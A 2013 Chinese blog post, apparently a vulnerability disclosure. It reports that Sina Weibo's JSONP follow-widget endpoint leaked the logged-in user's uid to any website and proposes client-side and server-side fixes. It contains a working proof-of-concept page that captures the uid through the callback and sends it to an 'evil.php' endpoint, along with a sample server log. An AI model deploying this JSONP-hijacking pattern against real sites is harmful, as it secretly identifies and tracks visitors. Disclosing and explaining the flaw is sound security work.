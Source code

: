 ```yaml
---
layout: post
title: "Who Are You"
date: 2013-01-25 22:20
comments: true
categories: 
---
```


这两天在研究新浪微博的第三方插件实现，无意中发现通过利用新浪微博的某个URL能让我获取当前访问这个URL的用户的微博uid。也就是说只要在某个网站中嵌入一段代码，这段代码在后台偷偷的的访问那个URL，然后就可以把访问这个网站的用户的微博uid获取到，于是隐私就被泄露了…… 也就是说一个网站可以知道有哪些微博用户访问了它，然后可以就此采取一系列的措施……  
下面就具体讲讲这个漏洞是怎么回事。

<!-- more -->

## 问题
大家都知道微博会提供一些第三方插件(widget)用来放在其他网站上，其中有一个就是关注按钮。通过这个关注按钮用户就可以在第三方网站上直接关注某个人，如果当前访问用户已经关注过了，则该关注按钮会显示已关注。接下来我们就要看看在一个第三方的网站上新浪微博是怎样知道当前访问用户是否已经关注了某个账号，而这个涉及到[JavaScript跨域问题](http://en.wikipedia.org/wiki/Same_origin_policy)。通过查看插件的js代码和浏览器的http请求，发现如果引入关注按钮插件的话会有如下的一个http请求：
	http://widget.weibo.com/public/aj_relationship.php?fuid=2991975565&callback=STK_13591259816211

返回结果是：
	STK_13591259816211({"code":"100000","msg":"success","data":{"relation":3,"login":true,"uid":2369955640}})

从这个http请求来看新浪采用了[jsonp](http://en.wikipedia.org/wiki/JSONP)技术来解决跨域问题。从返回结果猜测data.relation应该表明当前用户和fuid用户之间的关系，可能是是否关注fuid，是否双向关注等等。问题的关键是新浪把当前用户的uid也返回回来了，如果第三方网站能获取这个uid，就能知道当前访问用户是谁了。

## 示例
接下来我就写了一个demo来模拟这个过程。首先是先写一个第三方网页：
``` html
<!doctype html>
<html>
<head>
</head>
<body>
<p> Hello World </p>
<script>
function STK_1(data) {
// wow, get the uid
var uid = data.data.uid;
// save the uid to the server
var xmlHttp = new XMLHttpRequest();
xmlHttp.open( "GET", "http://www.jjyao.me/evil.php?uid=" + uid, true );
xmlHttp.send(null);
}
</script>
<script src="http://widget.weibo.com/public/aj_relationship.php?fuid=2991975565&callback=STK_1"></script>
</body>
</html>
```
每当用户访问这个网页的时候就在后面发一个aj_relationship.php的请求，然后指定一个已经定义好的callback，这样等请求结果返回后指定的callback就会被执行，于是就可以获取到当前登陆用户的微博uid了，最后要做的就是将这个uid传回给服务器保存起来。而这个可以通过服务器的log来实现，比如Nginx有access log，会将每个访问的url记录在日志中，结果如下：
	219.219.125.217 - - [25/Jan/2013:14:38:39 +0000] "GET /evil.php?uid=2369955640 HTTP/1.1" 200 31 "http://www.jjyao.me/index.html" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_2) AppleWebKit/537.17 (KHTML, like Gecko) Chrome/24.0.1312.56 Safari/537.17"
于是在服务器端就可以统计有哪些微博用户访问了这个网站，他们都是谁。

正如上面所说的那样，只要添加一些简单的代码，一个网站就可以知道哪些用户访问了，因为知道微博账号实际上很大程度等于知道了用户的真实身份。也就是说通过微博的这么一个漏洞，我们的隐私被泄露了，我们实际上没有匿名访问一个网站，而都是实名在访问，想想还是蛮可怕的。

## 解决
解决这个问题的手段无非就是两大类：一类是用户在客户端解决，一类是新浪在服务端解决。

### 客户端解决
在客户端解决的话我们要做的就是在向widget.weibo.com发送请求时，不让浏览器发送新浪微博的Session Cookie和Third-Party Cookie，因为就是这Cookie才使得新浪知道当前用户是谁的。相比于禁止发送Session Cookie而言，禁止Third-Party Cookie会更容易。要想禁止Third-Party Cookie可以禁止储存它或者储存了但是禁止发送。要想不存储Third-Party Cookie可以选择不记住密码，在Chrome的Incognito Window中打开，在浏览器中设置不保存Cookie这几种方法。而要想禁止发送Third-Party Cookie可以选择IE或者Safari浏览器，因为这两个浏览器出于安全的考虑，默认禁止了浏览器在`<img>`、`<iframe>`、`<script>`、`<link>`等标签中发送Third-Party Cookie，所以如果用IE或者Safari，那么网站可能不知道当前用户是谁了。解决了Third-Party Cookie并不表示问题解决了，因为还有Session Cookie。也就说如果在当前Session中访问过新浪微博，那么微博就会设置Session Cookie，在同一个Session再去访问安插有恶意代码的网站，还是能使网站知道当前用户的微博uid，因此在访问完新浪后要退出浏览器或者执行其他能让浏览器清除Session Cookie的操作，然后再去访问其他网站，这样就能解决Session Cookie的问题了。只有同时解决了Session Cookie和Third-Party Cookie，上述的隐私泄露问题才能得到解决。

### 服务器端解决
服务器端解决最简单的方法就是不返回uid信息，或者是采取措施限制CSRF。对于后一种做法就引申出一个大的Topic了，有兴趣的可以看看[《白帽子讲Web安全》](http://book.douban.com/subject/10546925/)中有关于如何防止CSRF的章节。另外，这确实是本好书:)
